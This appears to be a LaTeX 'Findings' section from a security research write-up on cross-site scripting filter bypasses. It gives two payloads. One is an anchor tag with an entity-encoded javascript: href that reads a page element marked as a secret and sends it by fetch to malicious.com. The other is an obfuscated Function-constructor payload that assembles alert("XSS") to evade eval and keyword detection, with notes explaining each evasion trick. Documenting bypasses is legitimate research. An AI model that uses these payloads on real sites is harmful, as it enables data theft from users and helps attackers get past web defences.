 \section{Findings}
\label{sec:Findings}
Combination of <a> with javascript in href injection, HTML ascii encoding, tagged template literals (line breaks for readability)
\begin{lstlisting}[style=basicStyle]
	<a href=j&#97v&#97script&#x3A;
	var&#32secret&#32=&#32document.getElementsByName("name")[0]&#46innerHTML;
	var&#32data&#32=&#32&#123body:secret,method:'POST'\};
	fetch`https:\//malicious.com:3001/api/ping?secret=querysecret$&#123data\}`>ClickMeFor$</a>
\end{lstlisting}

\begin{itemize}
	\item Using function constructor to evade eval() detection
	\item supplying the argument via tagged template literal to avoid () characters
	\item the 'a' in front of the template in the template string to avoid an error that is thrown if the first parameter in a multi parameter call to the function constructor is not a valid javascript parameter
	\item using string replace to avoid supplying the full sequence of 'alert' and to replace () characters
\end{itemize}

\begin{lstlisting}[style=basicStyle, caption=Payload inspired by \cite{onecons/wafbypass}]
	[][`constructor`][`constructor`]`a${`al` + [open + []][0][11] + `rt` + [open + []][0][13] + [`"`][0] + `XSS` + [`"`][0] + [open + []][0][14]}```
\end{lstlisting}
